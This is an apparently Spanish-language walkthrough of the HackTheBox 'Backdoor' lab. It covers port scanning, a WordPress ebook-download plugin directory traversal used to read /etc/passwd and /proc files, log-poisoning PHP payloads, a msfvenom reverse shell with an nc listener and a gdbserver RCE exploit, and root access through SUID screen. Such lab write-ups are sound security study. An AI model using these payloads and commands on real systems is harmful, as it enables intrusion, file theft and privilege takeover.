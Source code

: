 ```yaml
---
title: "HackTheBox: Backdoor"
date: 2022-10-25T18:14:31-04:00
categories:
  - HackTheBox
tags:
  - Wordpress
  - Directory Traversal
  - LFI
  - SUID
---
```


## Scanning

Primero se realizara el escaneo para ver que puertos estan abiertos
> - `-sS`: SYN port scan
> - `--open`: Reportar solo los puertos abiertos
> - `-p-`: Escanear los 65535 puertos
> - `-v`: Modo verbose
> - `-n`: No hacer resolucion DNS
> - `-Pn`: No hacer host discovery
> - `-oG open_ports`: Guardar la captura formato grepeable para uso con `grep`

```bash
nmap -sS --open -p- -n -Pn -v 10.10.11.125 -oG open_ports

host: 10.10.11.125() Ports: 22/open/tcp//ssh///, 80/open/tcp//http///, 1337/open/tcp//waste///
```

Con esta captura y usando el comando `grep` se puede filtrar por los puertos abiertos que nos informa nmap
```bash
grep -oP '\d{1,5}/open' open_ports | grep -oE "[0-9]+" | xargs | tr ' ' ','
22,80,1337
```

Ahora se puede realizar otro escaneo para detectar las versiones `-sV`, y probar los scripts de numeración mas comunes `-sC` de los puertos que se encontraron abiertos `-p{ports}`
```
nmap -sC -sV -p22,80,1337 10.10.11.125 -oN target
```

| Puerto | Servicio | Versión                         |
| ------ | -------- | ------------------------------- |
| 22     | ssh      | OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 |
| 80     | http     | Apache httpd 2.4.41             |
| 1337   | waste?   | ---                        | 


Al inspeccionar la pagina web los links redireccionan a `http://backdoor.htb/...` por lo que se puede suponer que esta realizando virtual hosting, por este motivo se puede agregar la siguiente linea al `/etc/hosts`
```bash
$ vim /etc/hosts
...
10.10.11.125    backdoor.htb
```

## Enumeración y acceso

Al revisar que tecnologias esta usando este sitio, por medio del **wappalyzer**, se puede notar que usa Wordpress
![alt]({{ site.url }}{{ site.baseurl }}/assets/images/backdoor_wappalyzer.png)

En este punto, se puede intentar acceder a las rutas `/wp-login.php` o `/wp-admin`, pero ya que no contamos con credenciales, no tendria caso, pero ya que Wordpress usa plugins podemos ir a `/wp-content/plugins` y ver si se encuentra algun plugin con vulnerabilidades

En este caso se indexan los directorios, pero en caso de que no llege a suceder esto, se puede hacer un fuzzing para descubrir plugins existentes
{: .notice}
![alt]({{ site.url }}{{ site.baseurl }}/assets/images/backdoor_wp_plugins.png)

Como se puede observar, se tiene un plugin llamado `ebook-download` entonces investigando, tiene una vulnerabilidad de [Directory Traversal][ebook-plugin]

Por lo que al ir a `/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl={file_system_name}` se estaria realizando un director traversal con el que podriamos para leer archivos del sistema
```bash
curl -s 'http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/etc/passwd'
root:x:0:0root:/root:/bin/bash
<snip>
```

> Con esta vulnerabilidad se podria consegir ejecución de comandos en la maquina sí:
> - La maquina tuviera una una llave privada `id_rsa` del usario `user` y al autenticarnos con esta llave no seria necesario proporcionar credenciales del usuario
> - O si tuvieramos acceso a los logs de apache en `/var/log/apache2/access.log`, `/var/log/httpd/access.log` o los logs de ssh en `/var/log/auth.log`
> 	- En apache podriamos enviar un payload en los headers para que con php nos ejecute algún commando del sistema `-H 'User-Agent: <?php echo system("whoami"); ?>'`
> 	- O en ssh podriamos intentar entrar por ssh con un usuario y que nos interprete esto como una sentencia php para que tambien podamos ejecutar comamdos: `ssh '<?php echo system("whoami"); ?>'@10.10.11.125`

Pero, ya que no hay la posibilidad de hacer de hacer un log poisoning o autenticarnos con la llave privada del usuario, se puede buscar información importante en la maquina, por ejemplo en el directorio `/proc/` como en el `/proc/self/environ` para ver las variables de entorno, etc.

En este punto podemos intentar ver que comando esta ejecutando cada proceso desde `/proc/{PID}/cmdline`
```bash
curl -s "http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/1/cmdline" --output 1
```
**Nota:** Ya que estos son archivos son binarios, entonces hay que usar la opción `--output` para guardar los datos binarios directamente a un archivo
{: .notice}

Lo que se puede hacer, es un for loop para ir iterando cada proceso
```bash
for i in {1..1000}; do curl -s "http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/$i/cmdline" --output $i; done
```

Una vez haya terminado, se puede investigar que tipo de archivo es mediante el comando `file`, ya que si es un archivo `html` no nos serviria, pero si es un archivo `data` significaria que tiene información binaria de la maquina.
```bash
file * | grep -v HTML | cut -d: -f1 | while read pid; do cat $pid; echo; done | sed 's/.*cmdline//' | sed 's/<script.*//'
```
> - `file * | grep -v HTML`: para ver que tipo de archivo es y quitar todos los que son formato HTML
> 	- output example: `971: data`
> - `cut -d: -f1`: para dividir el output usando como delimitador `:` y tomar el primer argumento
> 	- output example: `971`
> - `while read pid; do cat $pid; echo; done`: usuando la salida anterior que son los ficheros que contienen data le hacemos un `cat` para leer cada uno de estos y hacer un salto de linea
> 	- output example: `/proc/971/cmdline/proc/971/cmdline/proc/971/cmdline/usr/sbin/mysql<script>window.close()</script>`
> - `sed 's/.*cmdline//' | sed 's/<script.*//'`: y al final con el output de los archivos quitarle lo que no forma parte del comando que se esta ejecutando
> 	- output example: `/usr/sbin/mysql`

En una parte de todo esto se puede observar que hay un servicio ejecutandose en el puerto 1337:
![alt]({{ site.url }}{{ site.baseurl }}/assets/images/backdoor_processes.png)

Y en el escaneo de nmap vimos que tenemos el puerto 1337 abierto, por lo que investigando, se encontro un exploit que da la posibilidad de ejecutar un [RCE][backdoor-rce]

Ejecutando este exploit pide lo siguiente:
1. Generar una shellcode con msfvenom
`msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.9 LPORT=4433 PrependFork=true -o rev.bin`
2. Ponernos en escucha en nuestra maquina de atacante
`nc -nlvp 4433`
3. Y correr el exploit
`python3 gdbserver_exploit.py 10.10.11.125:1337 rev.bin`

Nos corremos el exploit y nos regresa una shell, aunque no es una shell interactiva podemos hacerle un upgrade para que sea totalmente interactiva:
![alt]({{ site.url }}{{ site.baseurl }}/assets/images/backdoor_interactive_tty.png)

## Escalación de privilegios

Buscando por archivos SUID se puede ver que hay un binario SUID no muy comun: `screen`
```bash
find / -perm -4000 2> /dev/null
<snip>
...
/usr/bin/screen
...
<snip>
```

Y recordando que hay un proceso de `screen` ejecutandose, que de igual manera se puede verificar mediante el comando `ps -ef | grep screen` para ver que es lo que hace
![alt]({{ site.url }}{{ site.baseurl }}/assets/images/backdoor_ps_screen.png)

En este output se puede ver que el usuario root tiene una sesión corriendo, y ya que tenemos el permiso SUID del comando `screen` lo que se puede intentar hacer es, conectarnos a esta sesión y obtener una session como el usuario root.
```bash
screen -r root/
```
![alt]({{ site.url }}{{ site.baseurl }}/assets/images/backdoor_root.png)

Y nos manda la session como el usuario root, por lo que ya podriamos leer la flag de root y seria todo!

[backdoor-rce]:https://www.exploit-db.com/exploits/50539
[ebook-plugin]:https://www.exploit-db.com/exploits/39575

